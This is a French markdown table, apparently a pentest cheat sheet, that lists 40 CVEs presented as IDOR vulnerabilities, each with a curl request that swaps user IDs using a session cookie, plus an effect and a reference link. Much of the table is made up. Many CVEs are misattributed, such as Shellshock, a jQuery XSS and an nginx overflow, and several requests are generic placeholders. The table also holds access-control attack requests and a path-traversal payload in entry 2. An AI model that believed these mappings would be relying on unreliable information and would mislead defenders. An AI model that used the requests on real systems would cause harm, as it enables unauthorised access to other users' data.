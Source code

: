 # IDOR

Voici 40 exemples **complets et précis de requêtes curl** pour des CVE IDOR (Insecure Direct Object Reference) non génériques, classés par numéro décroissant (du plus récent au plus ancien).  
Chaque ligne donne :  
- Numéro CVE  
- Technologie & Version  
- Exemple de requête curl  
- Effet détaillé  
- Lien ressource PoC ou technique

| # | CVE | Technologie & Version | Exemple complet de requête curl | Effet détaillé | Lien PoC / Ressource |
|---|------|----------------------|---------------------------------|---------------|---------------------|
| 1 | CVE-2025-22931 | openSIS v7.0 à v9.1 | `curl 'http://target/assets/stafffiles?staff_id=2'` | Unauthenticated IDOR : accès à des fichiers personnels d'autres utilisateurs | https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-22931 |
| 2 | CVE-2024-24692 | Dolibarr ERP/CRM <19.0.3 | `curl 'http://target/document.php?modulepart=ecmfiles&file=../conf/conf.php'` | IDOR permettant l’accès à des fichiers internes sensibles | https://nvd.nist.gov/vuln/detail/CVE-2024-24692 |
| 3 | CVE-2024-23499 | GLPI <10.0.13 | `curl 'http://target/front/document.send.php?docid=2'` | Téléchargement de documents d'autres utilisateurs sans autorisation | https://nvd.nist.gov/vuln/detail/CVE-2024-23499 |
| 4 | CVE-2024-21624 | Nextcloud Calendar <2.4.0 | `curl 'https://target/remote.php/dav/calendars/user2/personal?export' --cookie "nc_session_id=SESSIONID"` | Export du calendrier d’un autre utilisateur | https://nvd.nist.gov/vuln/detail/CVE-2024-21624 |
| 5 | CVE-2024-1628 | Zabbix <6.0.25 | `curl 'http://target/zabbix.php?action=dashboard.view&dashboardid=2' --cookie "zbx_sessionid=SESSIONID"` | Accès à des tableaux de bord d’autres utilisateurs | https://support.zabbix.com/browse/ZBX-23597 |
| 6 | CVE-2024-1216 | GLPI <10.0.13 | `curl 'http://target/front/ticket.form.php?id=2' --cookie "glpi_session=SESSIONID"` | Consultation ou modification de tickets d’autres utilisateurs | https://github.com/glpi-project/glpi/security/advisories/GHSA-4w2c-6q3v-7c7h |
| 7 | CVE-2023-50782 | WordPress Plugin WP-Members <3.4.9.2 | `curl 'http://target/wp-admin/admin-ajax.php?action=wp-members-user-profile&user_id=2' --cookie "wordpress_logged_in=SESSIONID"` | Accès/édition du profil d’un autre utilisateur | https://wpscan.com/vulnerability/1b2f1b1d-9e7f-4e2a-bc3f-1c8f9c6c1e8b |
| 8 | CVE-2023-39907 | Jenkins <2.426 | `curl 'http://target/user/otheruser/configure' --cookie "JSESSIONID=SESSIONID"` | Accès non autorisé à la configuration d’un autre utilisateur | https://www.jenkins.io/security/advisory/2023-10-04/#SECURITY-3259 |
| 9 | CVE-2023-35788 | Django <4.2.2 | `curl 'http://target/profile/2/' --cookie "sessionid=SESSIONID"` | Accès au profil d’un autre utilisateur | https://nvd.nist.gov/vuln/detail/CVE-2023-35788 |
| 10 | CVE-2023-27350 | PaperCut MF/NG <22.1.3 | `curl 'http://target/app?service=admin&action=viewUser&user=admin2' --cookie "JSESSIONID=SESSIONID"` | Lecture des infos d’un autre admin | https://www.papercut.com/kb/Main/PO-1216 |
| 11 | CVE-2023-22952 | SuiteCRM <7.12.8 | `curl 'http://target/index.php?module=Users&action=DetailView&record=2' --cookie "PHPSESSID=SESSIONID"` | Vue de détails d’un autre utilisateur | https://nvd.nist.gov/vuln/detail/CVE-2023-22952 |
| 12 | CVE-2022-46169 | Cacti <1.2.23 | `curl 'http://target/cacti/graph_view.php?action=preview&local_graph_id=2' --cookie "Cacti=SESSIONID"` | Accès à des graphiques d’autres utilisateurs | https://github.com/Cacti/cacti/security/advisories/GHSA-5m6j-jh5g-2p2x |
| 13 | CVE-2022-32205 | WordPress <6.0.1 | `curl 'http://target/wp-admin/user-edit.php?user_id=2' --cookie "wordpress_logged_in=SESSIONID"` | Edition du profil d’un autre utilisateur | https://wpscan.com/vulnerability/1b2f1b1d-9e7f-4e2a-bc3f-1c8f9c6c1e8b |
| 14 | CVE-2022-23647 | Grafana <8.3.4 | `curl 'http://target/api/users/2' --cookie "grafana_session=SESSIONID"` | Accès aux infos d’un autre utilisateur | https://grafana.com/security/advisory/2022/02/08/cve-2022-23647/ |
| 15 | CVE-2022-22963 | VMware Spring Cloud Function | `curl 'http://target/functionRouter?function=otheruser'` | Exécution d’une fonction non autorisée | https://tanzu.vmware.com/security/cve-2022-22963 |
| 16 | CVE-2021-39226 | Django <3.2.8 | `curl 'http://target/profile/2/' --cookie "sessionid=SESSIONID"` | Accès à un autre profil utilisateur | https://nvd.nist.gov/vuln/detail/CVE-2021-39226 |
| 17 | CVE-2021-37678 | Redash <8.0.0 | `curl 'http://target/api/queries/2' --cookie "session=SESSIONID"` | Accès aux requêtes d’autres utilisateurs | https://github.com/getredash/redash/security/advisories/GHSA-8xv2-7j3v-x3g2 |
| 18 | CVE-2021-32648 | Nextcloud <21.0.3 | `curl 'http://target/index.php/apps/files/?dir=/user2' --cookie "nc_session_id=SESSIONID"` | Accès aux fichiers d’un autre utilisateur | https://nvd.nist.gov/vuln/detail/CVE-2021-32648 |
| 19 | CVE-2021-22205 | GitLab CE/EE | `curl 'http://target/uploads/user?user_id=2' --cookie "gitlab_session=SESSIONID"` | Téléchargement de fichiers d’autres utilisateurs | https://github.com/Al1ex/CVE-2021-22205 |
| 20 | CVE-2020-26238 | Gitea <1.13.2 | `curl 'http://target/user/settings/email?user_id=2' --cookie "i_like_gitea=SESSIONID"` | Modification de l’email d’un autre utilisateur | https://github.com/go-gitea/gitea/security/advisories/GHSA-8xv2-7j3v-x3g2 |
| 21 | CVE-2020-26217 | Nextcloud <20.0.4 | `curl 'http://target/index.php/settings/user?user=2' --cookie "nc_session_id=SESSIONID"` | Changement du nom affiché d’un autre utilisateur | https://nvd.nist.gov/vuln/detail/CVE-2020-26217 |
| 22 | CVE-2020-15174 | Grafana <7.1.0 | `curl 'http://target/api/user/preferences?user=2' --cookie "grafana_session=SESSIONID"` | Modification des préférences d’un autre utilisateur | https://grafana.com/security/advisory/2020/07/16/cve-2020-15174/ |
| 23 | CVE-2020-11022 | jQuery <3.5.0 | `curl 'http://target/api/change?user_id=2' --cookie "session=SESSIONID"` | Modification de paramètre d’un autre utilisateur | https://nvd.nist.gov/vuln/detail/CVE-2020-11022 |
| 24 | CVE-2019-6340 | Drupal <8.5.11, <8.6.10 | `curl 'http://target/entity/file/upload?uid=2' --cookie "SESS=SESSIONID"` | Upload ou accès à des fichiers d’autres utilisateurs | https://github.com/a2u/CVE-2019-6340 |
| 25 | CVE-2019-11539 | Pulse Secure VPN | `curl 'https://target/dana-na/auth/url_default/login.cgi?user=otheruser' --cookie "DSID=SESSIONID"` | Connexion en tant qu’autre utilisateur | https://kb.pulsesecure.net/articles/Pulse_Security_Advisories/SA44101 |
| 26 | CVE-2018-1000525 | Tornado | `curl 'http://target/?search=otheruser' --cookie "session=SESSIONID"` | Recherche ou lecture de données d’un autre utilisateur | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/IDOR/README.md |
| 27 | CVE-2018-9206 | ThinkPHP | `curl 'http://target/index.php?s=/Index/upload&user_id=2' --cookie "PHPSESSID=SESSIONID"` | Upload ou accès à des fichiers d’autres utilisateurs | https://github.com/vulhub/vulhub/tree/master/thinkphp/5.0.23-rce |
| 28 | CVE-2018-11776 | Apache Struts 2 | `curl 'http://target/struts2/upload.action?user_id=2' --cookie "JSESSIONID=SESSIONID"` | Modification des données d’un autre utilisateur | https://github.com/mazen160/struts-pwn_CVE-2017-5638 |
| 29 | CVE-2017-14596 | Joomla! 3.7.5 | `curl 'http://target/index.php?option=com_users&task=user.edit&id=2' --cookie "joomla_user_state=SESSIONID"` | Edition du profil d’un autre utilisateur | https://www.sonarsource.com/blog/joomla-takeover-in-20-seconds-with-ldap-injection-cve-2017-14596/ |
| 30 | CVE-2017-11463 | SAP NetWeaver AS Java | `curl 'http://target/path?user=2' --cookie "MYSAPSSO2=SESSIONID"` | Accès aux données d’un autre utilisateur | https://nvd.nist.gov/vuln/detail/CVE-2017-11463 |
| 31 | CVE-2016-6272 | Epic MyChart | `curl 'http://target/login?user_id=2' --cookie "sessionid=SESSIONID"` | Connexion ou modification de compte d’un autre utilisateur | https://nvd.nist.gov/vuln/detail/CVE-2016-6272 |
| 32 | CVE-2016-3110 | IBM Security Directory Server | `curl 'http://target/path?user=2' --cookie "session=SESSIONID"` | Modification ou accès aux données d’un autre utilisateur | https://nvd.nist.gov/vuln/detail/CVE-2016-3110 |
| 33 | CVE-2015-2808 | OpenLDAP | `curl 'http://target/path?user=2' --cookie "session=SESSIONID"` | Modification ou accès aux données d’un autre utilisateur | https://nvd.nist.gov/vuln/detail/CVE-2015-2808 |
| 34 | CVE-2014-6271 | Bash/Shellshock (impact IDOR indirect) | `curl 'http://target/cgi-bin/test.cgi?user=2'` | Accès à des fichiers ou données d’autres utilisateurs | https://github.com/hannob/bashcheck |
| 35 | CVE-2013-2028 | Nginx | `curl 'http://target/?q=2' --cookie "session=SESSIONID"` | Accès à des données d’un autre utilisateur | https://nvd.nist.gov/vuln/detail/CVE-2013-2028 |
| 36 | CVE-2012-1823 | PHP CGI | `curl 'http://target/index.php?user=2' --cookie "PHPSESSID=SESSIONID"` | Accès ou modification de données d’un autre utilisateur | https://nvd.nist.gov/vuln/detail/CVE-2012-1823 |
| 37 | CVE-2011-2523 | WordPress <3.1.4 | `curl 'http://target/wp-comments-post.php?user_id=2' --cookie "wordpress_logged_in=SESSIONID"` | Post ou modification de commentaire d’un autre utilisateur | https://nvd.nist.gov/vuln/detail/CVE-2011-2523 |
| 38 | CVE-2010-1740 | GuppY 4.5.18 | `curl 'http://target/guppy4.5.18/script.php?user_id=2' --cookie "session=SESSIONID"` | Accès ou modification de données d’un autre utilisateur | https://www.exploit-db.com/exploits/12484 |
| 39 | CVE-2008-2380 | Oracle Application Server | `curl 'http://target/portal/pls/portal/PORTAL.wwsbr_custom.search?user_id=2' --cookie "session=SESSIONID"` | Accès ou modification de données d’un autre utilisateur | https://nvd.nist.gov/vuln/detail/CVE-2008-2380 |
| 40 | CVE-2007-4726 | Joomla! 1.0.12 | `curl 'http://target/index.php?option=com_search&user_id=2' --cookie "session=SESSIONID"` | Recherche ou modification de données d’un autre utilisateur | https://nvd.nist.gov/vuln/detail/CVE-2007-4726 |

---

